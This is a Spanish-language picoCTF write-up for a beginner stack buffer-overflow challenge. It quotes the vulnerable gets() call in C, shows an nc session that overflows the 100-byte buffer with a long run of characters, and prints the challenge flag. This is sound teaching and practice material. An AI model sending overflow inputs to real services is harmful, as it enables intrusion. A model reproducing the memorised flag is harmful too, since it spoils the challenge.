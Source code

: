 ## Descripción
Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c). And connect with it using:`nc saturn.picoctf.net 51532`

## Pistas
- How can you trigger the flag to print?
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
- Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solución
- Analizando el codigo fuente del programa, encontre interante lo siguiente

```python()
printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
```

- Segun `man gets`, "Nunca use gets(). Debido a que es imposible saber sin conocer los datos de antemano cuántos caracteres leerá get(), y debido a que gets() continuará almacenando caracteres más allá del final del búfer, su uso es extremadamente peligroso. Se ha utilizado para romper la seguridad informática. Utilice fgets() en su lugar.", Podemos ver que el bufer que esta como parametro del `get()` tiene como valor 100, por lo que ingresaremos como input, una cadena con mas de 100 caracteres para romper el programa.

```bash()
└─$ nc saturn.picoctf.net 51532

Input: 00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}
```

- La flag es:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}
```

## Notas adicionales
- Hay que analizar el codigo fuente del binario para obtener la respuesta.

## Referencias 
- Sin referencias.

